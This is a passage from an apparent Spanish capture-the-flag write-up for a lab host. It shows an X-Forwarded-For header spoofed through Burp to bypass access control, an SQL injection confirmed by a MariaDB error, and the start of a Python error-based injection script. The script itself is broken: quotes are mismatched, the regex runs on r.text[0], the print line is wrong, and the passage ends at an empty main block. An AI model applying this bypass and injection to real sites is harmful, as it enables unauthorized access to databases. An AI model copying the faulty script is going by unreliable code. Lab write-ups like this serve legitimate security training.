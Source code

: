 - Manual (cambiando de manera manual a cada peticion el header)
- Automatizada (que cada peticion use este header)

1. Pinchamos a Proxy > Options
1. Add Match and Replace

    ```{r, echo = FALSE, fig.cap="Azure DevOps repositories", out.width="90%"}
        knitr::include_graphics("images/Control-burp-xforwardingfor.png")
    ```

1. Interceptamos y vemos que se añade la cabezera
1. Desactivamos el intersepte 

Ya podemos navegar de manera normal.

Vemos una pagina con productos y un input para buscar productos. Si escribimos un producto, aparece una tabla con un titulo **id**.

Probamos poner un apostrofe `'` en el input de busqueda y nos sale un error SQL `Error SQLSTATE[42000] Syntax error or access violation You have an error in your SQL
syntax, check the manual that corresponds to your MariaDB server version for the right syntax to use near "'" at line 1`
## Vulnerability Assessment {-}


### SQL Injection Error Based con Python {-}

La idea aqui es crear un script en python que nos injecte el comando deseado y que filtre la respuesta al lado del servidor que 
queremos.

```python
#!/usr/bin/python3

import requests
import re
import signal
import sys
import time

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Variables_globales
sqli_url = "http://10.10.10.167/search_products.php"

def makeRequest(injection):
    post_data = {
        'productName: '%s' % injection
    }

    headers = {
        'X-Forwarded-For': '192.168.4.28'
    }

    r = requests.post(sqli_url, data=post_data, headers=headers)
    response = re.findall(r'\<tbody\>\r\n\t\t\t\t\t\t\t(.*?)\t\t\t\t\t\t\<\/tbody\>', r.text[0])

    print("\n + response + \n")


if __name__ == '__main__':
```